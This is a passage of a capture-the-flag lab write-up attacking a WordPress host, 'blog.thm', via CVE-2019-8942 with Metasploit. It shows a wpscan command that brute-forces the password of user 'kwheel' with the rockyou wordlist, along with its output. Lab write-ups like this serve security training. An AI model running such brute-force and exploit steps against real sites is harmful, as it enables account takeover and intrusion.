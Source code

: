 Lets take a look at the first exploit or <a href="https://nvd.nist.gov/vuln/detail/CVE-2019-8942" target="_blank">CVE 2019-8942</a>

Lucky for us there is a metasploit module already build for this exploit.

<a href="pics/blog-ctf/msf1.png" target="_blank"><img src="pics/blog-ctf/msf1.png"></a>

As we can see it requires username and password for the WP account, lets try bruteforcing them

```
$ wpscan --url blog.thm --passwords '/usr/share/wordlists/rockyou.txt' --usernames 'kwheel'

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - kwheel / [redacted]
```
We have found the credentials for kwheel.
Now lets run the exploit once again, providing USERNAME/PASSWORD from above.

<a href="pics/blog-ctf/msf2.png" target="_blank"><img src="pics/blog-ctf/msf2.png"></a>
